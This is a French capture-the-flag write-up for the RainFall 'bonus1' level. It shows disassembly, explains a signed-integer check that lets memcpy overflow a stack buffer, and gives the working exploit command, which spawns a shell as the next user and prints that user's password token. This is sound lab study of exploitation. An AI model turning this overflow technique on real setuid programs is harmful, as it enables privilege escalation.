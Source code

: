 ## Démarches

- le binaire `bonus1` prend 2 arguments


```
08048424 <main>:
 8048424:	55                   	push   %ebp
 8048425:	89 e5                	mov    %esp,%ebp
 8048427:	83 e4 f0             	and    $0xfffffff0,%esp
 804842a:	83 ec 40             	sub    $0x40,%esp
 804842d:	8b 45 0c             	mov    0xc(%ebp),%eax
 8048430:	83 c0 04             	add    $0x4,%eax
 8048433:	8b 00                	mov    (%eax),%eax
 8048435:	89 04 24             	mov    %eax,(%esp)
 8048438:	e8 23 ff ff ff       	call   8048360 <atoi@plt>
 804843d:	89 44 24 3c          	mov    %eax,0x3c(%esp)
 8048441:	83 7c 24 3c 09       	cmpl   $0x9,0x3c(%esp)
 8048446:	7e 07                	jle    804844f <main+0x2b>
 8048448:	b8 01 00 00 00       	mov    $0x1,%eax
 804844d:	eb 54                	jmp    80484a3 <main+0x7f>
 804844f:	8b 44 24 3c          	mov    0x3c(%esp),%eax
 8048453:	8d 0c 85 00 00 00 00 	lea    0x0(,%eax,4),%ecx
 804845a:	8b 45 0c             	mov    0xc(%ebp),%eax
 804845d:	83 c0 08             	add    $0x8,%eax
 8048460:	8b 00                	mov    (%eax),%eax
 8048462:	89 c2                	mov    %eax,%edx
 8048464:	8d 44 24 14          	lea    0x14(%esp),%eax
 8048468:	89 4c 24 08          	mov    %ecx,0x8(%esp)
 804846c:	89 54 24 04          	mov    %edx,0x4(%esp)
 8048470:	89 04 24             	mov    %eax,(%esp)
 8048473:	e8 a8 fe ff ff       	call   8048320 <memcpy@plt>
 8048478:	81 7c 24 3c 46 4c 4f 	cmpl   $0x574f4c46,0x3c(%esp)
 804847f:	57
 8048480:	75 1c                	jne    804849e <main+0x7a>
 8048482:	c7 44 24 08 00 00 00 	movl   $0x0,0x8(%esp)
 8048489:	00
 804848a:	c7 44 24 04 80 85 04 	movl   $0x8048580,0x4(%esp)
 8048491:	08
 8048492:	c7 04 24 83 85 04 08 	movl   $0x8048583,(%esp)
 8048499:	e8 b2 fe ff ff       	call   8048350 <execl@plt>
 804849e:	b8 00 00 00 00       	mov    $0x0,%eax
 80484a3:	c9                   	leave
 80484a4:	c3                   	ret
```

- le programme alloue un buffer puis vérifie que le premier paramètre est inférieur à 10, dans ce cas :
  - il `memcpy` le second argument
  - puis si la variable contenant le premier paramètre contient une valeur donnée (`0x574f4c46` soit *WOLF* en ascii),
  - il exécute un shell

- Pour passer la première condition (`i < 10`), on peut utiliser un nombre négatif
- Ce nombre négatif sera multiplié par un `unsigned int` dans l'appel du memcpy et deviendra un nombre positif,
- Peda nous aide à déterminer que le buffer du memcpy fait 40 char de long (0x3c),
- Pour overwrite `i`, on doit donc écrire 40 + 4 caractères,
- On passe donc 40 dans le premier paramètre, via un nombre négatif transformé par atoi en signed int :

    - 4 294 967 295 est le nombre maximum contenu dans un unsigned int (2^32 − 1 *ou* FFFFFFFF)
    - (-4294967295 - 40) / 4 = -1073741813
    > -1073741813

Donc -1073741813 puis 40 caractères de padding puis la chaine voulue à l'envers (`WOLF` -> `FLOW`)
```
    bonus1@RainFall:~$ ./bonus1 -1073741813 $(python -c 'print("A"*40+"FLOW")')
    $ pwd
    /home/user/bonus1
    $ whoami
    bonus2
    $ cat /home/user/bonus2/.pass
    579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
    $ exit
```

<br>
----
## Ressources

- https://lambdahackulus.wordpress.com/2012/07/30/signed-comparison-vulnerabilities/
- https://aticleworld.com/signed-and-unsigned-integers/